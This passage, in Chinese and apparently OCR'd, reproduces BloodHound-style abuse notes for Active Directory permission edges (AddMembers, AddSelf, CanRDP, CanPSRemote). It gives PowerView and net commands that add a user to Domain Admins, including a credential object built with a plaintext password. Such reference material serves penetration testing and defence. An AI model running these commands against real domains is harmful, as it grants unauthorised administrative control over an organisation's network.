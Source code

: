 如果您没有以该用户身份运行进程，则可能需要以具有 AddMembers 权限的用户身份向域控制器进行身份验证。要与 Add-DomainGroupMember 结合执行此操作，首先创建一个 PSCredential 对象（这些示例来自 PowerView 帮助文档）：

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
```
然后，使用 Add-DomainGroupMember，如果您尚未在具有 AddMembers 权限的用户拥有的进程中运行，则可以选择指定 $Cred
```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
```
最后，使用 PowerView 的 Get-DomainGroupMember 验证用户是否已成功添加到组中：
```
Get-DomainGroupMember -Identity 'Domain Admins'
```

## AddSelf

此边缘表示主体有能力将自身添加到目标安全组。由于安全组委派，安全组的成员具有与该组相同的权限。

通过将自己添加到组并刷新令牌，您将获得该组拥有的所有相同权限

+ 滥用信息

+ net
  `net group "Domain Admins" dfm.a /add /domain`
+ PowerView (推荐)
  https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
```

然后，使用 Add-DomainGroupMember，如果您尚未在具有 AddSelf 权限的用户拥有的进程中运行，则可以选择指定 $Cred

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
```

最后，使用 PowerView 的 Get-DomainGroupMember 验证用户是否已成功添加到组中：

```
Get-DomainGroupMember -Identity 'Domain Admins'
```

## CanRDP

远程桌面访问允许您进入与目标计算机的交互式会话。如果以低权限用户身份进行身份验证，则权限升级可能允许您获得系统上的高权限。

+ 滥用信息
	mstsc.exe

## CanPSRemote

PowerShell 会话访问允许您进入与目标计算机的交互式会话。如果以低权限用户身份进行身份验证，则权限升级可能允许您获得系统上的高权限

+ 滥用信息

